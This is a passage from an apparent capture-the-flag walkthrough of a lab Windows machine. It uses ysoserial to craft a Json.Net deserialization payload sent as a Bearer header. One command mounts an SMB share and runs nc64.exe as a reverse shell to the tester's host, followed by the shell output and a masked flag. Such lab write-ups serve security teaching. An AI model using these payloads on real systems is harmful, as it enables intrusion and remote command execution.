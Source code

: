 

    PS > ysoserial.exe -g WindowsIdentity -f Json.Net -c "ping 10.10.14.10" -o base64
    ew0KICAgICAgICAgICAgICAgICAgICAnJHR5cGUnOiAnU3lzdGVtLlNlY3VyaXR5LlByaW5jaXBhbC5XaW5kb3dzSWRlbnRpdHksIG1zY29ybGliLCBWZXJzaW9uPTQu...[snip]...



I sent the GET request for `/api/Account/` to Repeater in Burp, and
replaced the Bearer header with the base64 encoded output from
`ysoserial`. When I sent it the one above, I got hits in Wireshark:

![](/img/1569923892976.png)

This shows I can execute commands.

### Shell

I've got my CommandoVM set up with `C:\share` such that a user, dummy,
can access it. `nc64.exe` is in the share, so I'll just have Json
connect to the share and run `nc` from there:



    PS > ysoserial.exe -g WindowsIdentity -f Json.Net -c "net use \\10.10.14.10\share /u:dummy dummy & \\10.10.14.10\share\nc64.exe -e cmd.exe 10.10.14.10 443" -o base64
    ew0KICAgICAgICAgICAgICAgICAgICAnJHR5cGUnOiAnU3lzdGVtLlNlY3VyaXR5LlByaW5jaXBhbC5XaW5kb3dzSWRlbnRpdHksIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwg...[snip]...



I'll drop that into Repeater, and submit. I get a shell:



    PS > nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.158] 64526
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.

    c:\windows\system32\inetsrv>whoami
    json\userpool



And from there, I can access `user.txt`:



    c:\Users\userpool\Desktop>type user.txt
    34459a01************************



## Priv #1: userpool --\> superadmin \[full disk access\]

